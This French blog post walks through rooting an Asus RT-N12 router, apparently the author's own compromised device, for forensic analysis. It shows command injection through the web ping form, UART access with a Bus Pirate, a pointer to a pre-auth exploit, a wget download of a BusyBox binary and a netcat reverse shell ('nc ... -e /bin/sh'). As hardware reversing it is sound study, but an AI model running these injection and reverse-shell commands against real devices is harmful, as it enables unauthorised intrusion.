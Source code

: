Rooting le rt-n12
#################
:date: 2016-02-04
:category: Reverse
:tags: Hardware, Reverse, Bus pirate, Routeur, Asus
:slug: reverse-rt-n12


Introduction :
~~~~~~~~~~~~~~

AsusTek est une entreprise de création de matériel informatique, téléphonique et réseau. Son routeur RT-N12  est l'objet de cet article. Nous allons ici tenter d'obtenir un shell root sur la bête parce que celui-ci a été compromis. Comme nous ne voulons pas effacer d’éventuelles preuves , nous n'allons pas le flasher.

Le Materiel :
~~~~~~~~~~~~~

Il vous faudra : un PC avec un port Ethernet, votre butineur préféré ainsi qu'une interface UART ( optionnel ).

1 - Attaquer l'interface Web :
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Sur tout les routeurs modernes, nous avons une interface Web pour faciliter la configuration de l'engin. Elle sont quasi tout le temps développées "in-house" et présentent souvent des failles de sécurité. Nous allons donc voir ce que nous pouvons tirer de celle de notre routeur.

On trouve immédiatement une interface pour effectuer des ping. Celles-ci appellent tout le temps le shell sous-jacent.On va donc injecter des commandes sur ce menu.

.. image:: thumbnails/Interface-rtn12_thumbnail_square.png
  :target: images/Interface-rtn12.png
  :alt: Interface image

Regardons déjà la sortie standard en "Ciblant" l'IP de notre PC:

.. code-block:: bash

  PING 192.168.1.139 (192.168.1.139): 56 data bytes
  64 bytes from 192.168.1.139: seq=0 ttl=64 time=3.935 ms
  64 bytes from 192.168.1.139: seq=1 ttl=64 time=6.019 ms
  64 bytes from 192.168.1.139: seq=2 ttl=64 time=0.887 ms
  64 bytes from 192.168.1.139: seq=3 ttl=64 time=0.854 ms
  64 bytes from 192.168.1.139: seq=4 ttl=64 time=0.910 ms

  --- 192.168.1.139 ping statistics ---
  5 packets transmitted, 5 packets received, 0% packet loss
  round-trip min/avg/max = 0.854/2.521/6.019 ms


Bon, on a un retour. voyons si nous lui injectons une commande avec $(ls)

.. code-block:: bash

  BusyBox v1.17.4 (2014-11-05 00:29:30 CST) multi-call binary.

  Usage: ping [OPTIONS] HOST

C'est aussi facile ? On dirait bien ! par contre, on a pas de retour, pas grave, on peut continuer à l'aveugle. On a déjà un bon indice, la version de BusyBox ( une "boite à outils" minimale pour linux ).

cette technique n'est cependant pas très pratique à utiliser, nous verrons au point 4 comment la rendre plus joueuse.

2 - Ouvrir la bête :
~~~~~~~~~~~~~~~~~~~~

Pendant son développement, les créateurs du routeur doivent avoir accès à une CLI pour pouvoir le débugger ou pour effectuer des tests. Il y a donc souvent sur les PCB des ports de type SPI, UART ou encore JTAG. Nous pouvons donc utiliser l'un de ces port pour avoir accès aux entrailles du routeur. L'UART est une interface série "en mode low power".  Le Bus Pirate offre entre autre une interface UART. C'est aussi le port le disponible sur la PCB de notre routeur.

Après quelque coups de tournevis , on a accès à la PCB. Il faut tout d'abords identifier le port UART : on le voit entouré sur la photo ( NB: j'y ai rajouté les pins pour un accès plus facile ):

.. image:: thumbnails/UART_thumbnail_square.jpg
  :target: images/UART.jpg
  :alt: Interface image

Cela ne nous renseigne pas sur le câblage des pins. On peut utiliser un outils dédié : le JTAGULATOR, ou alors, le faire à la main.

On va faire ça avec les outils qu'on a à disposition : un multimètre numérique. On va déjà chercher la masse : on prend la masse sur  l'alimentation et on test toutes les pins. lorsque le multimètre en mode "testeur de diode" sonne, c'est qu'on a trouvé la masse ( pin N*3 en partant du haut sur la photo ).

On va ensuite trouver VCC: on recommence la même manipulation qu'avant avec le routeur allumé , mais avec le multimètre en mode voltmètre à la recherche de 3.3V. On découvre que le port n*4 en partant du haut est stable sur 3.3v, c'est donc le Vcc. Les deux autres sont RX et TX, on les identifiera avec le bus pirate. On branche déjà GND ( surtout pas VCC, vous pourriez griller le routeur ET le bus pirate). On branche ensuite le RX et TX sur les pins 1 et 2 . Si lors de l'allumage, le bus pirate détecte quelque chose, c'est que le branchement est correct, sinon, on intervertit RX et TX.

La configuration de l'UART est la suivante :

.. table:: Options UART

  ======= =============== ======= ===========
  Vitesse Bits de données Paritée Bit de stop
  ======= =============== ======= ===========
  115200  8               Non     1
  ======= =============== ======= ===========

Dans l'interface du bus pirate ça donne les commandes suivantes :

.. list-table:: Les commandes du bus pirate :

    * - m
    * - 3
    * - 9
    * - 1
    * - 1
    * - 1
    * - 2
    * - (1) <= cette commande met le bus pirate en mode passif. toute commande envoyé après celle-ci ira sur le port UART.
    * - y

Un p'tit test :

.. code-block:: bash

  / # uname -a
  Linux (none) 2.6.22.19 #1 Wed Nov 5 00:32:32 CST 2014 mips GNU/Linux

Voila, nous avons un shell Root sur le routeur.

3 - Exploit pre-auth:
~~~~~~~~~~~~~~~~~~~~~

On a de la chance : cette version du firmware possède une erreur de programmation qui permet de lancer une commande sans même avoir d’accès au routeur. L'exploit se trouve ici : https://www.exploit-db.com/exploits/35688/

Celui-ci et capable de lancer une commande pre-auth sur le routeur. On le lance avec l'IP du routeur et la commande à effectuer, et voila !

Encore une fois, c'est pas très pratique : on verra comment le rendre plus fun dans le point suivant

4 - Post-rooting:
~~~~~~~~~~~~~~~~~

On a à présent une commande sur le routeur. Mais certaine  de ces techniques ne sont pas très utiles tant que l'on n'a pas encore "rootkité" le routeur. On veut un shell stable et qui fonctionne comme mon shell sur mon linux. Busybox offre dans ses dernières versions un netcat parfaitement fonctionnel avec qui plus est , l'option -e ( pour "plugger" les entrées et sorties standard d'un processus )

On va donc installer une busybox dernière version sur le routeur.

.. list-table:: Les points à effectuer :

  * - Obtenir une meilleur version de busybox
  * - installer celle-ci sur le routeur
  * - Obtenir un reverse shell

Déjà trouver une busybox compatible. Ce sera un MIPS Little Endian. Une version est téléchargeable directement ici : https://www.busybox.net/downloads/binaries/latest/ celle qui nous intéresse est la mipsel. Une fois obtenue, il faut la mettre sur le routeur.

Python possède un outils très puissant : SimpleHTTPServer : dans le même répertoire que la version de busybox fraîchement téléchargée, on exécute :

.. code-block:: bash

  python -m SimpleHTTPServer 80

Ceci va lancer un serveur HTTP , il ne reste plus qu'à la télécharger sur le routeur :
wget http://192.168.1.139/busybox-mipsel -O /tmp/busybox

puis :

.. code-block:: bash

  chmod 777 /tmp/busybox

Nous avons à présent une nouvelle busybox sur le routeur. On va déjà placer un netcat en écoute sur le PC:

.. code-block:: bash

  nc -l -p 1234

Et enfin, dans le shell du routeur :

.. code-block:: bash

  /tmp/busybox nc 192.168.1.139 1234 -e /bin/sh

Un p'tit test :

.. code-block:: bash

  ls -alh
  drwxr-xr-x   10 admin    root        3.5K Nov  4  2014 .
  drwxr-xr-x   18 admin    root         225 Nov  4  2014 ..
  -rw-r--r--    1 admin    root       13.0K Nov  4  2014 Advanced_ACL_Content.asp
  -rw-r--r--    1 admin    root       14.2K Nov  4  2014 Advanced_ASUSDDNS_Content.asp
  -rw-r--r--    1 admin    root        7.8K Nov  4  2014 Advanced_BasicFirewall_Content.asp
  <============== 8<====================>
  -rw-r--r--    1 admin    root       34.6K Nov  4  2014 validator.js
  -rw-r--r--    1 admin    root          38 Nov  4  2014 wds_aplist_2g.asp
  -rw-r--r--    1 admin    root          38 Nov  4  2014 wds_aplist_5g.asp
  -rw-r--r--    1 admin    root          40 Nov  4  2014 wds_aplist_5g_2.asp
  -rw-r--r--    1 admin    root        1.7K Nov  4  2014 wlconn_apply.htm
  lrwxrwxrwx    1 admin    root          18 Nov  4  2014 wpad.dat -> /www/ext/proxy.pac

Et voila, on a un shell à travers le réseau ! on peut à présent déplacer  les binaires avec netcat sur le PC pour les analyser. Nous allons d’ailleurs récupérer infosvr pour analyse.
